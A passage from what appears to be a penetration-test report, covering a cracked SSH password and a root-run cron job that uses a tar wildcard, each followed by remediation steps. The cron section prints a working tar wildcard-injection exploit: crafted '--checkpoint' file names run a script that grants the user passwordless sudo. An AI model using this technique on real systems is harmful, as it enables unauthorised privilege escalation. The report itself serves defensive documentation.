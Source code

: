 - Result: Cracked the password (weak security).
	-![Pasted image 20250403121948.png](Pasted%20image%2020250403121948.png)
	

#### 3.5.2 Remediation Plan

1. **Detection**:
    - Check SSH logs.
    - Monitor connections with netstat.
2. **Prevention**:
    - Block SSH after 3 failed attempts.
    - Use stronger passwords (numbers, special characters).
    - Implement two-factor authentication (2FA).

---

### 3.6 Cron Job Vulnerability

#### 3.6.1 Details

- **Vulnerability**: tar command in cron jobs with root privileges.
- **Impact**: root privilege escalation.
- Cron job:
    
    text
    
    
    `*/5 * * * * root cd /home/john/ && tar -zcf /home-john-backup.tgz *`
    
- **Exploitation**:
    - Created files to inject a script (shell.sh):
        
        bash
        
        
        `touch -- "--checkpoint=1" touch -- "--checkpoint-action=exec=sh shell.sh" echo "john ALL=(ALL) NOPASSWD:ALL" > shell.sh chmod +x shell.sh`
        
    - After <5 minutes, john gained root privileges via sudo su.
    -
    ![Pasted image 20250403122047.png](Pasted%20image%2020250403122047.png)
    
	![Pasted image 20250403122100.png](Pasted%20image%2020250403122100.png)

	![Pasted image 20250403122115.png](Pasted%20image%2020250403122115.png)

	![Pasted image 20250403122138.png](Pasted%20image%2020250403122138.png)
	
#### 3.6.2 Remediation Plan

- ✅ Avoid wildcards (*) in cron jobs.
- ✅ Update cron job:
    - Before: tar -zcf /home-john-backup.tgz *
    - After: tar -zcf /home-john-backup.tgz ./john

---
